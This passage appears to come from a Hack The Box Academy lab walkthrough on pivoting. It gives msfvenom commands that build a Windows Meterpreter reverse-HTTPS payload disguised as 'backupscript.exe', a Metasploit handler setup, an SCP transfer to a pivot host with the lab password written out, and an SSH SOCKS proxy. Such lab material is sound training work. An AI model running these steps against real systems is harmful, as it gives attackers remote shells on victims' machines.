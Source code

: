 ### **Step 1: Create Meterpreter Payload**
```bash
# From Pwnbox/Attack Host
msfvenom -p windows/x64/meterpreter/reverse_https \
  LHOST=172.16.5.129 \
  LPORT=8080 \
  -f exe \
  -o backupscript.exe

# Output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 741 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### **Step 2: Configure Metasploit Handler**
```bash
# Start msfconsole
sudo msfconsole -q

# Configure handler
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 0.0.0.0      # Listen on ALL interfaces
set LPORT 8000         # Local handler port (different from payload)
run

# Output:
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

### **Step 3: Transfer Payload to Pivot**
```bash
# SCP transfer to Ubuntu pivot
scp backupscript.exe ubuntu@10.129.228.103:~/

# Enter password: HTB_@cademy_stdnt!
# Output:
backupscript.exe    100% 7168    77.3KB/s   00:00
```

### **Step 4: Setup Dynamic Port Forwarding**
```bash
# SSH with SOCKS proxy for RDP access
ssh -D 9050 ubuntu@10.129.228.103

# Enter password: HTB_@cademy_stdnt!
# Now on pivot host:
ubuntu@WEB01:~$ ls
backupscript.exe
```
